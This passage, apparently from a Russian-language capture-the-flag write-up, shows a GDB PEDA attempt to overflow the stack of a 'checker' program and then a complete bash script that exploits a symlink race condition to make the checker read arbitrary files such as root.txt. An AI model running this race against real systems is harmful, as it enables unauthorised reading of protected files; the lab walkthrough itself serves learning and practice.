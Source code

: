 ### Возможен ли срыв стека?

Откроем `checker` в GDB PEDA и попробуем перезаписать RIP. Для этого я сгенерю паттерн длиной 1000 байт, сохраню в файл `p.txt` и подам его на вход чекеру.

```
gdb-peda$ pattern create 1000 p.txt
Writing pattern of 1000 chars to filename "p.txt"
gdb-peda$ r p.txt
...
```

Программа ожидаемо упала. Посмотрим содержимое регистра RSP.

```
gdb-peda$ x/xg $rsp
0x7fffffffde40: 0x00007fffffffe158
```

В RSP содержится указатель. Если пойти дальше и взглянуть на содержимое указателя, мы найдем часть нашей циклической последовательности.

```
gdb-peda$ x/xs 0x00007fffffffe158
0x7fffffffe158: "BWABuABXABvABYABwABZABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$oA$SA$pA$TA$qA$UA$rA$VA$t"...
gdb-peda$ pattern offset BWABuABXABv
BWABuABXABv found at offset: 776
```

Из-за того, что в RSP сохраняется не само содержимое файла, а указатель на него, у меня не вышло получить контроль над RIP. Не уверен, возможно ли это в принципе, так что пойдем по пути наименьшего сопротивления и переключимся на атаку по времени.

## Гонка за root.txt

Стратегия проста до безобразия:
- создаем фейковый файл, который мы заведомо можем читать;
- создаем символическую ссылку, указывающую на него;
- асинхронно (в форке процесса основного шелла) скармливаем файл чекеру;
- ждем полсекунды, чтобы попасть на секунду «ожидания»;
- подменяем символическую ссылку на любой другой файл (только не слишком большой, чтобы не словить ошибку сегментации).

```bash
#!/bin/bash

# Использование: bash checker-exploit.sh <ФАЙЛ>

# Создаем пустой файл, который будет нашим «прикрытием»
touch .fake

# Создаем связующее звено — символическую ссылку на .fake, которую мы подменим далее
ln -s .fake .pivot

# На фоне запускаем чекер и ждем полсекунды, чтобы попасть в окно секундной задержки
checker .pivot &
sleep 0.5

# Подменяем символическую ссылку на другой файл, переданный скрипту в первом аргументе
ln -sf $1 .pivot

# Ждем еще полсекунды и чистим следы
sleep 0.5
rm .fake .pivot
```
